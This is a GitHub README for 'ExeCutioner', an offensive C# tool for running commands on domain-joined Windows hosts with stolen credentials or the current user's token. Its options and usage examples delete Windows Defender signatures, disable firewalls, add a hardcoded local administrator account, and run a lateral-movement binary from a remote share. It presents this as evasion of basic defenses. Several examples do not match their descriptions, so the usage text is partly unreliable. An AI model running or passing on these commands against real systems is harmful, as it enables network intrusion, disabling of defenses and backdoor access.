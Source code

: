 # ExeCutioner


![image](https://user-images.githubusercontent.com/57995347/164909586-9938ba03-3381-4750-ab95-3f69c261f625.png)



This is an Offensive C# Tool written to execute commands on Domain-joined Windows hosts by either taking user supplied creds (username/password) or leveraging the logged-on user's access token.

It also supports a "PsExeclike" lateral movement technique that attempts to fly under the radar of basic defenses and can be used to clear AV Definitions to further make attacks easier.

                      
```
ExeCutioner.exe /t <target> /user <username>  /pass <password>  /domain <domain> <command-to-run>
```

Options:
```
/addadmin - adds a local administrator called newguy with password MakeLife123 to target
/cmd - allows for the execution of commands on the target
/domain - allows for the specification of target domain
/noav - deletes Windows Defender's signatures
/nofw - disables all target firewall profiles
/pass - specifies password to use
/t - specifies the target
/syscreds - ignores the user specified and uses the token of the currently logged in user
/user - specifies the target user account
```

Usage:
```
ExeCutioner.exe /t <target> /user <username>  /pass <password>  /domain <domain> <command-to-run>

Usage: Examples:
ExeCutioner.exe /?  - show's this help menu 

//Authenticate to target with username and password and disable firewall profiles
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /domain <domain> /nofw true

//Authenticate to target with current user token and turn off av - useful and facilitates easier lateral movement/code execution
ExeCutioner.exe /t <target name or IP> /syscreds true /nofw true

//Authenticate to target with current user token and execute command
ExeCutioner.exe /t <target name or IP> /cmd <command-to-run-in-qoutes>

//Authenticate to target with current user token and execute binary for lateral movement
ExeCutioner.exe /t <target name or IP> /cmd <\\192.168.10.8\\lateralmovement.exe>

//Authenticate to target with current user token and add a new Local Administrator - username "newguy" with password "MakeLife123"
ExeCutioner.exe /t <target name or IP> /cmd <\\192.168.10.8\\lateralmovement.exe>
```

# Credits
- Heavily inspired by "[chvancooten](https://github.com/chvancooten/OSEP-Code-Snippets)" 
- Great resource from "[Microsoft](https://docs.microsoft.com/en-us/dotnet/api/system.security.principal.windowsidentity.impersonate?view=netframework-4.8)"


